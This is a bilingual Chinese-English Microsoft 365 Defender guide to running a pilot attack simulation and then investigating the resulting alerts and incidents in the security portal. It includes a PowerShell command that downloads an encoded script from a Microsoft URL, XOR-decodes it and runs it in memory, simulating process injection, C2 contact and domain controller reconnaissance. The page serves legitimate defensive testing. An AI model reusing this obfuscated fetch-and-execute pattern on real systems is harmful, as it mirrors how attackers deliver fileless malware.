









# <a name="run-your-microsoft-365-defender-attack-simulations"></a><span data-ttu-id="ba19a-104">运行 Microsoft 365 Defender 攻击模拟</span><span class="sxs-lookup"><span data-stu-id="ba19a-104">Run your Microsoft 365 Defender attack simulations</span></span>

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|<span data-ttu-id="ba19a-105">[](mtp-pilot-plan.md)</span><span class="sxs-lookup"><span data-stu-id="ba19a-105">[](mtp-pilot-plan.md)</span></span><br/>[<span data-ttu-id="ba19a-106">规划</span><span class="sxs-lookup"><span data-stu-id="ba19a-106">Planning</span></span>](mtp-pilot-plan.md)|<span data-ttu-id="ba19a-107">[](prepare-mtpeval.md)</span><span class="sxs-lookup"><span data-stu-id="ba19a-107">[](prepare-mtpeval.md)</span></span><br/>[<span data-ttu-id="ba19a-108">准备</span><span class="sxs-lookup"><span data-stu-id="ba19a-108">Preparation</span></span>](prepare-mtpeval.md)|<br/><span data-ttu-id="ba19a-110">模拟攻击</span><span class="sxs-lookup"><span data-stu-id="ba19a-110">Simulate attack</span></span>|<span data-ttu-id="ba19a-111">[](mtp-pilot-close.md)</span><span class="sxs-lookup"><span data-stu-id="ba19a-111">[](mtp-pilot-close.md)</span></span><br/>[<span data-ttu-id="ba19a-112">结束和汇总</span><span class="sxs-lookup"><span data-stu-id="ba19a-112">Close and summarize</span></span>](mtp-pilot-close.md)|
|--|--|--|--|
|||<span data-ttu-id="ba19a-113">*你在这里！*</span><span class="sxs-lookup"><span data-stu-id="ba19a-113">*You are here!*</span></span>||

<span data-ttu-id="ba19a-114">你当前处于攻击模拟阶段。</span><span class="sxs-lookup"><span data-stu-id="ba19a-114">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="ba19a-115">准备试点环境后，可以测试 Microsoft 365 Defender 事件管理和自动调查和修正功能了。</span><span class="sxs-lookup"><span data-stu-id="ba19a-115">After preparing your pilot environment, it's time to test the Microsoft 365 Defender incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="ba19a-116">我们将帮助你模拟复杂的攻击，该攻击利用高级技术在检测中隐藏。</span><span class="sxs-lookup"><span data-stu-id="ba19a-116">We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="ba19a-117">攻击枚举在域控制器上打开 (SMB) 会话，并检索用户设备的最近 IP 地址。</span><span class="sxs-lookup"><span data-stu-id="ba19a-117">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="ba19a-118">此类攻击通常不包括在患者设备上丢弃的文件，它们仅发生在内存中。</span><span class="sxs-lookup"><span data-stu-id="ba19a-118">This category of attacks usually doesn't include files dropped on the victim's device—they occur solely in memory.</span></span> <span data-ttu-id="ba19a-119">他们通过使用现有系统和管理工具"离开陆地"，将其代码注入系统进程以隐藏其执行，此类行为允许他们规避检测并保留在设备上。</span><span class="sxs-lookup"><span data-stu-id="ba19a-119">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="ba19a-120">在此模拟中，我们的示例方案从 PowerShell 脚本开始。</span><span class="sxs-lookup"><span data-stu-id="ba19a-120">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="ba19a-121">用户可能会被诱使运行脚本。</span><span class="sxs-lookup"><span data-stu-id="ba19a-121">A user might be tricked into running a script.</span></span> <span data-ttu-id="ba19a-122">或者，脚本可能从远程连接从以前受感染的设备运行到另一台计算机，攻击者试图在网络中进行稍后移动。</span><span class="sxs-lookup"><span data-stu-id="ba19a-122">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="ba19a-123">检测这些脚本可能非常困难，因为管理员经常远程运行脚本以执行各种管理活动。</span><span class="sxs-lookup"><span data-stu-id="ba19a-123">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="ba19a-125">在模拟过程中，攻击将 shellcode 注入到一个看起来不小的过程。</span><span class="sxs-lookup"><span data-stu-id="ba19a-125">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="ba19a-126">此方案需要使用notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="ba19a-126">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="ba19a-127">我们选择此过程进行模拟，但攻击者更有可能面向长时间运行的系统进程，如svchost.exe。</span><span class="sxs-lookup"><span data-stu-id="ba19a-127">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="ba19a-128">然后，shellcode 继续联系攻击者的命令和控制 (C2) 服务器，以接收有关如何继续的说明。</span><span class="sxs-lookup"><span data-stu-id="ba19a-128">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="ba19a-129">该脚本尝试对 DC (域控制器执行重新) 。</span><span class="sxs-lookup"><span data-stu-id="ba19a-129">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="ba19a-130">重新集成允许攻击者获取有关最近用户登录信息的信息。</span><span class="sxs-lookup"><span data-stu-id="ba19a-130">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="ba19a-131">攻击者获得此信息后，可以稍后在网络中移动，以到达特定的敏感帐户</span><span class="sxs-lookup"><span data-stu-id="ba19a-131">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="ba19a-132">为了获得最佳结果，请尽可能遵循攻击模拟说明。</span><span class="sxs-lookup"><span data-stu-id="ba19a-132">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

## <a name="simulation-environment-requirements"></a><span data-ttu-id="ba19a-133">模拟环境要求</span><span class="sxs-lookup"><span data-stu-id="ba19a-133">Simulation environment requirements</span></span>

<span data-ttu-id="ba19a-134">由于已在准备阶段配置了试点环境，因此请确保有两台设备用于此方案：测试设备和域控制器。</span><span class="sxs-lookup"><span data-stu-id="ba19a-134">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1. <span data-ttu-id="ba19a-135">验证租户是否[已启用 Microsoft 365 Defender。](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)</span><span class="sxs-lookup"><span data-stu-id="ba19a-135">Verify your tenant has [enabled Microsoft 365 Defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>

2. <span data-ttu-id="ba19a-136">验证测试域控制器配置：</span><span class="sxs-lookup"><span data-stu-id="ba19a-136">Verify your test domain controller configuration:</span></span>

   - <span data-ttu-id="ba19a-137">设备使用 Windows Server 2008 R2 或更高版本运行。</span><span class="sxs-lookup"><span data-stu-id="ba19a-137">Device runs with Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="ba19a-138">测试域控制器到 [Microsoft Defender 的 Identity](https://docs.microsoft.com/azure/security-center/security-center-wdatp) 并启用 [远程管理](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)。</span><span class="sxs-lookup"><span data-stu-id="ba19a-138">The test domain controller to [Microsoft Defender for Identity](https://docs.microsoft.com/azure/security-center/security-center-wdatp) and enable [remote management](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="ba19a-139">验证 [是否已启用 Microsoft Defender for Identity 和 Microsoft Cloud App Security](https://docs.microsoft.com/cloud-app-security/mdi-integration) 集成。</span><span class="sxs-lookup"><span data-stu-id="ba19a-139">Verify that [Microsoft Defender for Identity and Microsoft Cloud App Security integration](https://docs.microsoft.com/cloud-app-security/mdi-integration) have been enabled.</span></span>
   - <span data-ttu-id="ba19a-140">在你的域中创建测试用户 - 无需管理员权限。</span><span class="sxs-lookup"><span data-stu-id="ba19a-140">A test user is created on your domain – no admin permissions needed.</span></span>

3. <span data-ttu-id="ba19a-141">验证测试设备配置：</span><span class="sxs-lookup"><span data-stu-id="ba19a-141">Verify test device configuration:</span></span>

   1. <span data-ttu-id="ba19a-142">设备使用 Windows 10 版本 1903 或更高版本运行。</span><span class="sxs-lookup"><span data-stu-id="ba19a-142">Device runs with Windows 10 version 1903 or a later version.</span></span>

   1. <span data-ttu-id="ba19a-143">测试设备已加入测试域。</span><span class="sxs-lookup"><span data-stu-id="ba19a-143">Test device is joined to the test domain.</span></span>

   1. <span data-ttu-id="ba19a-144">[打开Windows Defender防病毒。](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)</span><span class="sxs-lookup"><span data-stu-id="ba19a-144">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="ba19a-145">如果在启用防病毒时遇到Windows Defender，请参阅此 [疑难解答主题](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。</span><span class="sxs-lookup"><span data-stu-id="ba19a-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="ba19a-146">验证测试设备已载入[到 Microsoft Defender for Endpoint) 。 ](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="ba19a-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="ba19a-147">如果使用现有租户并实施设备组，请为测试设备创建专用设备组，并推送到配置 UX 中的顶级设备组。</span><span class="sxs-lookup"><span data-stu-id="ba19a-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="ba19a-148">运行攻击方案模拟</span><span class="sxs-lookup"><span data-stu-id="ba19a-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="ba19a-149">运行攻击方案模拟：</span><span class="sxs-lookup"><span data-stu-id="ba19a-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="ba19a-150">使用测试用户帐户登录到测试设备。</span><span class="sxs-lookup"><span data-stu-id="ba19a-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="ba19a-151">在Windows PowerShell打开一个窗口。</span><span class="sxs-lookup"><span data-stu-id="ba19a-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="ba19a-152">复制以下模拟脚本：</span><span class="sxs-lookup"><span data-stu-id="ba19a-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="ba19a-153">如果在 Web 浏览器中打开此文档，则可能无法复制全文而不丢失某些字符或引入额外的换行符。</span><span class="sxs-lookup"><span data-stu-id="ba19a-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="ba19a-154">下载此文档，在 Adobe Reader 上打开它。</span><span class="sxs-lookup"><span data-stu-id="ba19a-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="ba19a-155">在提示符下，粘贴并运行复制的脚本。</span><span class="sxs-lookup"><span data-stu-id="ba19a-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="ba19a-156">如果使用远程桌面协议 (RDP) 运行 PowerShell，请使用 RDP 客户端中的"键入剪贴板文本"命令，因为 **CTRL-V** 热键或右键单击粘贴方法可能不起作用。</span><span class="sxs-lookup"><span data-stu-id="ba19a-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="ba19a-157">PowerShell 的最新版本有时也不接受该方法，您可能首先必须复制到内存中的记事本，将其复制到虚拟机中，然后将其粘贴到 PowerShell 中。</span><span class="sxs-lookup"><span data-stu-id="ba19a-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="ba19a-158">几秒钟后，notepad.exe<i>打开。</i></span><span class="sxs-lookup"><span data-stu-id="ba19a-158">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="ba19a-159">模拟攻击代码将注入notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="ba19a-159">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="ba19a-160">使自动生成的记事本实例保持打开状态，以体验完整方案。</span><span class="sxs-lookup"><span data-stu-id="ba19a-160">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="ba19a-161">模拟攻击代码将尝试与外部 IP 地址通信 (模拟 C2 服务器) 然后尝试通过 SMB 重新与域控制器重新同步。</span><span class="sxs-lookup"><span data-stu-id="ba19a-161">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="ba19a-162">此脚本完成后，你将看到 PowerShell 控制台上显示的消息。</span><span class="sxs-lookup"><span data-stu-id="ba19a-162">You'll see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="ba19a-163">To see the Automated Incident and Response feature in action， keep the notepad.exe process open.</span><span class="sxs-lookup"><span data-stu-id="ba19a-163">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="ba19a-164">你将看到自动事件和响应停止记事本过程。</span><span class="sxs-lookup"><span data-stu-id="ba19a-164">You'll see Automated Incident and Response stop the Notepad process.</span></span>

## <a name="investigate-an-incident"></a><span data-ttu-id="ba19a-165">调查事件</span><span class="sxs-lookup"><span data-stu-id="ba19a-165">Investigate an incident</span></span>

> [!NOTE]
> <span data-ttu-id="ba19a-166">在我们演示此模拟之前，请观看以下视频，了解事件管理如何在调查过程中帮助您将相关警报拼出在一起，在门户中可以找到相关警报，以及如何帮助你执行安全操作：</span><span class="sxs-lookup"><span data-stu-id="ba19a-166">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="ba19a-167">切换到 SOC 分析员的角度，现在可以开始在 Microsoft 365 安全中心门户中调查攻击。</span><span class="sxs-lookup"><span data-stu-id="ba19a-167">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span>

1. <span data-ttu-id="ba19a-168">从任何 [设备打开 Microsoft 365 安全](https://security.microsoft.com/incidents) 中心门户事件队列。</span><span class="sxs-lookup"><span data-stu-id="ba19a-168">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2. <span data-ttu-id="ba19a-169">从菜单 **导航到** "事件"。</span><span class="sxs-lookup"><span data-stu-id="ba19a-169">Navigate to **Incidents** from the menu.</span></span>

    

3. <span data-ttu-id="ba19a-171">模拟攻击的新事件将显示在事件队列中。</span><span class="sxs-lookup"><span data-stu-id="ba19a-171">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="ba19a-173">调查单个事件的攻击</span><span class="sxs-lookup"><span data-stu-id="ba19a-173">Investigate the attack as a single incident</span></span>

<span data-ttu-id="ba19a-174">Microsoft 365 Defender 将分析关联，并将不同产品的所有相关警报和调查聚合到一个事件实体中。</span><span class="sxs-lookup"><span data-stu-id="ba19a-174">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="ba19a-175">通过执行此操作，Microsoft 365 Defender 显示更广泛的攻击案例，使 SOC 分析员可以了解并响应复杂威胁。</span><span class="sxs-lookup"><span data-stu-id="ba19a-175">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="ba19a-176">此模拟期间生成的警报与同一威胁相关联，因此，会自动聚合为单个事件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-176">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="ba19a-177">查看事件：</span><span class="sxs-lookup"><span data-stu-id="ba19a-177">To view the incident:</span></span>

1. <span data-ttu-id="ba19a-178">导航到 **事件** 队列。</span><span class="sxs-lookup"><span data-stu-id="ba19a-178">Navigate to the **Incidents** queue.</span></span>

   

2. <span data-ttu-id="ba19a-180">单击事件名称左侧的圆圈，选择最新项目。</span><span class="sxs-lookup"><span data-stu-id="ba19a-180">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="ba19a-181">侧面板显示有关事件的其他信息，包括所有相关警报。</span><span class="sxs-lookup"><span data-stu-id="ba19a-181">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="ba19a-182">每个事件都有一个唯一的名称，该名称根据事件包括的警报的属性进行描述。</span><span class="sxs-lookup"><span data-stu-id="ba19a-182">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   

   <span data-ttu-id="ba19a-184">可以基于服务资源筛选仪表板中显示警报：Microsoft Defender for Identity、Microsoft Cloud App Security、Microsoft Defender for Endpoint、Microsoft 365 Defender 和 Microsoft Defender for Office 365。</span><span class="sxs-lookup"><span data-stu-id="ba19a-184">The alerts that show in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="ba19a-185">选择 **"打开** 事件"页可获取有关事件详细信息。</span><span class="sxs-lookup"><span data-stu-id="ba19a-185">Select **Open incident page** to get more information about the incident.</span></span>

   <span data-ttu-id="ba19a-186">在 **"** 事件"页中，你可以看到与事件相关的所有警报和信息。</span><span class="sxs-lookup"><span data-stu-id="ba19a-186">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="ba19a-187">这些信息包括警报中涉及的实体和资产、警报的检测源 (Microsoft Defender for Identity、EDR) ，以及它们链接在一起的原因。</span><span class="sxs-lookup"><span data-stu-id="ba19a-187">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Microsoft Defender for Identity, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="ba19a-188">查看事件警报列表可显示攻击进度。</span><span class="sxs-lookup"><span data-stu-id="ba19a-188">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="ba19a-189">从此视图中，你可以查看和调查各个警报。</span><span class="sxs-lookup"><span data-stu-id="ba19a-189">From this view, you can see and investigate the individual alerts.</span></span>

   <span data-ttu-id="ba19a-190">您还可以 **从右侧菜单中** 单击"管理事件"，以标记事件、将其分配给自己并添加注释。</span><span class="sxs-lookup"><span data-stu-id="ba19a-190">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

   

   

### <a name="review-generated-alerts"></a><span data-ttu-id="ba19a-193">查看生成的警报</span><span class="sxs-lookup"><span data-stu-id="ba19a-193">Review generated alerts</span></span>

<span data-ttu-id="ba19a-194">让我们看一下模拟攻击期间生成的一些警报。</span><span class="sxs-lookup"><span data-stu-id="ba19a-194">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="ba19a-195">我们将仅演练模拟攻击期间生成的一些警报。</span><span class="sxs-lookup"><span data-stu-id="ba19a-195">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="ba19a-196">根据 Windows 版本和在测试设备上运行的 Microsoft 365 Defender 产品，你可能会看到按略有不同的顺序显示更多警报。</span><span class="sxs-lookup"><span data-stu-id="ba19a-196">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="ba19a-198">警报：观察到的可疑进程注入 (来源：适用于终结点 EDR 的 Microsoft Defender) </span><span class="sxs-lookup"><span data-stu-id="ba19a-198">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="ba19a-199">高级攻击者使用复杂且具有攻击性的方法在内存中保留，并隐藏在检测工具中。</span><span class="sxs-lookup"><span data-stu-id="ba19a-199">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="ba19a-200">一种常见技术是在受信任的系统进程（而不是恶意可执行文件）中进行操作，使得检测工具和安全操作难以发现恶意代码。</span><span class="sxs-lookup"><span data-stu-id="ba19a-200">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="ba19a-201">为了允许 SOC 分析员捕获这些高级攻击，Microsoft Defender for Endpoint 中的深层内存传感器可为我们的云服务提供对各种跨进程代码注入技术的前所未有的可见性。</span><span class="sxs-lookup"><span data-stu-id="ba19a-201">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="ba19a-202">下图显示了 Defender for Endpoint 如何在尝试向终结点注入代码时检测到和<i>notepad.exe。 </i></span><span class="sxs-lookup"><span data-stu-id="ba19a-202">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>



#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="ba19a-204">警报：在源：适用于终结点 EDR 的 Microsoft Defender (没有命令行参数的进程运行时观察到的意外) </span><span class="sxs-lookup"><span data-stu-id="ba19a-204">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="ba19a-205">Microsoft Defender 终结点检测通常面向攻击技术的最常见属性。</span><span class="sxs-lookup"><span data-stu-id="ba19a-205">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="ba19a-206">此方法可确保持久性，并提升攻击者切换到较新的策略的条形。</span><span class="sxs-lookup"><span data-stu-id="ba19a-206">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

